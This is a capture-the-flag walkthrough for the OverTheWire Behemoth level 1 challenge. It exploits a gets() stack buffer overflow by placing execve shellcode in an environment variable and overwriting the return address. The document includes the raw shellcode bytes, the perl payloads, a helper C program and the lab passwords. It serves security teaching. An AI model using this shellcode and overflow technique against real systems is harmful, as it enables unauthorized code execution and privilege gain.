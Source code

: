 # Level 1 → Level 2

## Solution
```
ssh behemoth1@behemoth.labs.overthewire.org -p 2221
```
```
8JHFW9vGru
```
```
cd /behemoth ; ls -al
```
```
./behemoth1
```
```
13337
```

![](0.png)

`strace` and `ltrace` gave no information, and `strings` search yielded nothing either.<br />
Therefore, we will look for existing functions and enter `gdb`:

```
nm ./behemoth1 | grep " T "
```

![](1.png)

* Just `main` function.

```
gdb ./behemoth1
```
```
set disassembly-flavor intel
```
```
disas main
```

![](2.png)

* `0x44` bytes on the stack
* `0x43` bytes for user input (until $bp)
* there is no limit with `gets`, so we can overrite the return-address.

Let's check this:

```
r <<< $(perl -e 'print "A"x(0x43), "BBBB", "CCCC"')
```

![](3.png)

* `BBBB` - overrite the address of old $bp
* `CCCC` - overrite the address of the return value.

So, we'll put shellcode into a environment variable, and jump to it.

```
export SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```
```
tempdir=$(mktemp -d)
```
```
cd $tempdir
```
```
vim getShellcode.c
```
```c
// getShellcode
#include <stdio.h>
#include <stdlib.h>

int main()
{
        char *shellcode = getenv("SHELLCODE");
        printf("SHELLCODE address: %p\nSHELLCODE=%s\n", shellcode, shellcode);
}
```
```
gcc -m32 getShellcode.c -o getShellcode
```
```
cd /behemoth/
```
```
$(echo $tempdir)/getShellcode
```

![](4.png)

```
echo $tempdir/getShellcode
```

![](5.png)

```python
# python:
SHELLCODE_ADDRESS = hex(0xffffd791 + 2*(len('/tmp/tmp.PonrsHdHZh/getShellcode') - len('./behemoth1')))
# SHELLCODE_ADDRESS == 0xffffd7bb
```
```
(perl -e 'print "A"x(0x43), "BBBB", "\xbb\xd7\xff\xff"' ; cat) | ./behemoth1
```
```
whoami
```
```
id
```
```
cat /etc/behemoth_pass/behemoth2
```

![](6.png)

```
exit
```

```
rm -r $tempdir
```

## Password for the next level:
```
udgJeGECEW
```

